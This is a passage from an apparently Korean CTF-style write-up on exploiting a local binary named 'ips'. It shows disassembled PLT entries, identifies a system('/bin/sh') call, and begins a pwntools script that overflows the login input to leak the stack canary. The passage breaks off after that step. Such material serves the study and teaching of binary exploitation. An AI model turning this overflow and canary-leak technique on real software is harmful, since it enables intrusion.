 ```c
   0x401174:	jmp    QWORD PTR [rip+0x2b36]        # 0x403cb0 <strcspn@got.plt>
   0x40117a:	nop    WORD PTR [rax+rax*1+0x0]
   0x401180:	endbr64
   0x401184:	jmp    QWORD PTR [rip+0x2b2e]        # 0x403cb8 <read@got.plt>
   0x40118a:	nop    WORD PTR [rax+rax*1+0x0]
   0x401190:	endbr64
   0x401194:	jmp    QWORD PTR [rip+0x2b26]        # 0x403cc0 <fgets@got.plt>
   0x40119a:	nop    WORD PTR [rax+rax*1+0x0]
   0x4011a0:	endbr64
   0x4011a4:	jmp    QWORD PTR [rip+0x2b1e]        # 0x403cc8 <strcmp@got.plt>
   0x4011aa:	nop    WORD PTR [rax+rax*1+0x0]
   0x4011b0:	endbr64
   0x4011b4:	jmp    QWORD PTR [rip+0x2b16]        # 0x403cd0 <malloc@got.plt>
   0x4011ba:	nop    WORD PTR [rax+rax*1+0x0]
   0x4011c0:	endbr64
   0x4011c4:	jmp    QWORD PTR [rip+0x2b0e]        # 0x403cd8 <setvbuf@got.plt>
   0x4011ca:	nop    WORD PTR [rax+rax*1+0x0]
   0x4011d0:	endbr64
   0x4011d4:	jmp    QWORD PTR [rip+0x2b06]        # 0x403ce0 <open@got.plt>
   0x4011da:	nop    WORD PTR [rax+rax*1+0x0]
   0x4011e0:	endbr64
   0x4011e4:	jmp    QWORD PTR [rip+0x2afe]        # 0x403ce8 <perror@got.plt>
   0x4011ea:	nop    WORD PTR [rax+rax*1+0x0]
   0x4011f0:	endbr64
   0x4011f4:	jmp    QWORD PTR [rip+0x2af6]        # 0x403cf0 <exit@got.plt>
   0x4011fa:	nop    WORD PTR [rax+rax*1+0x0]
```
이렇게 확인해보니 plt 영역이라는 이라는 점을 확인할 수 있었습니다. system 함수가 있는 0x401150이 call되는 부분이 있는지 확인해봤습니다.
<img src="/assets/img/SpaceAloneMacOS/30.png" alt="system call" width="100%" style="display: block; margin: 0 auto;">

IPS + 411 부분에서 call 되는 모습을 확인할 수 있었고, 인자 값으로 전달되는 값을 확인해보기 위해 0x402576을 확인해보니, "/bin/sh"가 인자로 전달되는 모습을 확인할 수 있었습니다. 

<img src="/assets/img/SpaceAloneMacOS/31.png" alt="binsh 확인" width="100%" style="display: block; margin: 0 auto;">

이제 exploit에 필요한 모든 정보를 얻었으니 페이로드를 작성해보겠습니다.

- Payload

```python
from pwn import *

p = process("./ips")
e = ELF("./ips")

context.log_level = "debug"
context.arch = "amd64"

# canary leak
p.sendafter(b"Username: ", b'A' * 64)
p.sendafter(b"Password: ", b'A' * 57)

p.recvuntil(b"A" * (64 + 57))
canary = u64(b'\x00' + p.recvn(7))

log.info(f"canary leak : {hex(canary)}")

```
